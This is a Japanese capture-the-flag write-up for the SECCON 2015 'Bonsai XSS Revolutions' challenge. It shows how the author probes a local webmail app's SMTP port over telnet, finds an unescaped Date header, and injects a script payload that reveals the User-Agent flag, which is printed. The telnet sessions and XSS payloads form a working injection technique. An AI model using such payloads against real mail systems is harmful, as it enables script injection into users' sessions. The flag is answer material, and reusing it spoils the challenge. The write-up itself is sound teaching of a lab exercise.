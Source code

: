 # Bonsai XSS Revolutions [200pt]

## Question

What is your browser(User-Agent)?

[hakoniwaWebMail_20151124.zip](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/hakoniwaWebMail_20151124.zip)


Requirement:.NET Framework 4.5 

ブラウザの名称（User-Agent）を答えよ。

[hakoniwaWebMail_20151124.zip](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/hakoniwaWebMail_20151124.zip)

必要環境.NET Framework 4.5

## Answer

実行してみると

![1.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/1.png)

こんな感じでブラウザを開いてメールサービスにログインする画面が出る

![2.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/2.png)

画面は操作することができないよう・・・

![3.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/3.png)

2つ開くとポート関連のエラーが出る

`tasklist`で`hakoniwaWebMail.exe`の`PID`を調べて

`netstat`で調べてみる

![4.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/4.png)

すると、`25`ポートで待ち受けてることがわかる

`25`番は`SMTP`サービスなのでそこにメールを`telnet`で送ってみる

```plain
> telnet localhost 25
Connecting To localhost...
220 tsuribori.test Tsuribori-SMTPserver by KeigoYAMAZAKI, 2014.12.09- ESMTP
HELO tsuribori.test
250 ok
MAIL FROM: test@test.com
250 ok
RCPT TO: keigo.yamazaki@tsuribori.test
250 ok
DATA
354 go ahead
Subject: Test<img src=0>
From: test<img src=0>
To: keigo<img src=0>
Date: Today<img src=0>

Test!

.
250 ok
quit
221 tsuribori.test Bye, bye...


Connection to host lost.
```

![5.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/5.png)

すると`Date`のところにXSSがあることがわかるので、

```plain
<script>alert(navigator.userAgent)</script>
```

これでユーザーエージェントが出るので送る

```plain
> telnet localhost 25
Connecting To localhost...
220 tsuribori.test Tsuribori-SMTPserver by KeigoYAMAZAKI, 2014.12.09- ESMTP
HELO tsuribori.test
250 ok
MAIL FROM: test@test.com
250 ok
RCPT TO: keigo.yamazaki@tsuribori.test
250 ok
DATA
354 go ahead
Subject: test
From: test
To: keigo
Date: <script> alert(navigator.userAgent)</script>

test
.
250 ok
quit
221 tsuribori.test Bye, bye...


Connection to host lost.
```

するとアラートでフラグが出てくる

![6.png](https://github.com/AkashiSN/SECCON2015-Online-CTF/raw/master/q11/6.png)


`SECCON{TsuriboriWebBros/2015.12.17620}`
